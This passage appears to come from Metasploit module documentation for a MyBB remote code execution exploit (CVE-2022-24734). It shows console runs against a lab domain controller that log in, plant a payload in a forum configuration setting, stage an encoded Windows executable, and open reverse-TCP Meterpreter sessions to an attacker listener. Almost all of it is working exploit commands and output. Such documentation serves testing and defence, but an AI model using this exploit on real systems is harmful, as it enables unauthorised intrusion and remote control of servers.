 ```
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
[*] Sending stage (175174 bytes) to 192.168.1.215
[*] Meterpreter session 6 opened (192.168.1.44:4444 -> 192.168.1.215:59025) at 2022-05-30 15:58:01 +0200

meterpreter > sysinfo
Computer        : DC02
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MYLAB
Logged On Users : 8
Meterpreter     : x86/windows
```


### Windows (target 4 - Windows (Dropper))
```
msf exploit(multi/http/mybb_rce_cve_2022_24734) > set target 5
target => 5
msf exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.1.44 RHOSTS=192.168.1.215 USERNAME=msfuser PASSWORD=123456
[*] Started reverse TCP handler on 192.168.1.44:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Generated command stager: ["echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAA...
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
[*] Command Stager progress -   2.01% done (2046/101881 bytes)
...
[*] Command Stager progress -  98.40% done (100252/101881 bytes)
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Sending stage (175174 bytes) to 192.168.1.215
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
[*] Command Stager progress - 100.00% done (101881/101881 bytes)
[*] Meterpreter session 7 opened (192.168.1.44:4444 -> 192.168.1.215:64264) at 2022-05-23 15:45:07 +0200

meterpreter > sysinfo
Computer        : DC02
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
```